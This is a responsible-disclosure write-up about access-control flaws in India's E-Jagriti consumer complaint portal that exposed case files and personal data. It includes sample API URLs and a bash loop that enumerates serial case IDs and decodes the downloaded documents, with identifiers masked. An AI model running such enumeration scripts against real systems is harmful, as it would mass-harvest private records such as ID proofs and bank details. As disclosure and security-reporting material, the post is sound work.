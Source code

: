 ```yaml
---
title: E-Jagriti portal vulnerabilities 2025
date:
    created: 2025-08-14
    updated: 2025-09-12
---
```


The EJagriti portal (<https://e-jagriti.gov.in>), which is an upgrade of
e-daakhil portal, is mandatory for consumer complaint filing and tracking.
Any complaint has to be uploaded on this portal before submitting it to the
consumer commission registry. It is developed and maintained by NIC(<https://nic.gov.in>)
and content owned by the Department Of Consumer Affairs, Ministry Of Consumer Affairs,
Food & Public Distribution, Government Of India.

These vulnerabilities allowed access to all case
documents (including sensitive information such as ID proofs, affidavits with
sign, complaint details, and depending on the case: medical records, bank
details, purchase details, land records etc. ) in a trivial manner. Further,
the case reference ID, being a serially increasing number, allowed serial
access to all other users' case documents.

Summary of the vulnerabilities

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [CaseFilingDocumentDetails](#1-casefilingdocumentdetails) | 31 May 2025 | Partial fix before 17 June. Full fix never confirmed to me. Guessing July | 18-47 | 38480225 |
| 2  | [getAllComplainantRespondantDetails](#2-getallcomplainantrespondantdetails) | 31 May 2025 | Partial fix before 17 June. Full fix never confirmed to me. Guessing July | 18-47 | 38480225 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-35 Path Traversal, CWE-284 Improper
  Access Control, CWE-285 Improper Authorization
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper
  Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

In my <https://pgportal.gov.in> complaint and appeal, I was assured that after fixing
the issue, they will reach out to me for verification. But that hasn't
happened as of the date of 12 September 2025. In a public "jansunwai" in the
last week of August, the e-jagriti officers confirmed to me that they have
fixed the issue and I can proceed with the public release of this report.

### 1. CaseFilingDocumentDetails

This API accepted a query parameter `fillingReferenceNumber` and retrieves
details about the case filing documents, masked as `$$$$`. This case
reference is simply a date in format `YYYYMMDD` followed by a 4 digit
serially increasing number, xxxx starting from 0001.

This API returned the following files:

1. the memo of parties which contains PII of the complainant, address, phone
number, email ID, etc.,
2. complaint itself which contains sensitive information like bank account details,
Aadhaar number, policy number, income information,
3. Signed annexures which have identity proofs, signature, affidavit, etc.
4. Judgement and orders related to the case.
5. Any replies or rejoinders filed by the complainant or the opposite party.

Simply opening this URL in the browser was enough

```bash title="sample_urls.sh" linenums="1"
https://e-jagriti.gov.in/services/case/caseFilingService/v2/getCaseFillingDocumentDetails?fillingReferenceNumber=$$$$
```

However, for decoding the base64-encoded files, this is a sample script.
The output contained an array of objects (accessible via `jq` (<https://jqlang.org/>))
which had base64 encoded file, which can be decoded to get the actual PDF or image file.

```bash title="sample_script.sh" linenums="1" hl_lines="1 4 12"
for reference in {$$$$$$$$..$$$$$$$$}; do
    timestamp=$(date '+%F_%T')
    outname="output_doc_${reference}_${timestamp}"
    curl -v 'https://e-jagriti.gov.in/services/case/caseFilingService/v2/getCaseFillingDocumentDetails?fillingReferenceNumber=$$$$'"$reference" \
    -o "${outname}.json"

    jq '.' "${outname}.json" > "${outname}_pretty.json"

    jq -r '.data.caseFillingDocumentDetailsResponseList[] | "\(.fileName)\t\(.fileContent)"' "${outname}.json" | while IFS=$'\t' read -r fileName fileContent; do
        echo "${fileContent}" > "${outname}_files_${fileName}.txt"
        base64 --decode "${outname}_files_${fileName}.txt" > "${outname}_files_${fileName}.pdf"
    done
done
```

### 2. getAllComplainantRespondantDetails

This API differs from the above in that this output is machine readable JSON
text. The above API returns a document which contained the document.

This API returned the following data:

1. the personal contact details of parties which contained address, phone
number, email ID, etc.

```bash title="sample_urls.sh" linenums="1"
https://e-jagriti.gov.in/services/case/caseFilingService/v2/getAllComplainantRespondantDetails?filingReferenceNumber=$$$$
```
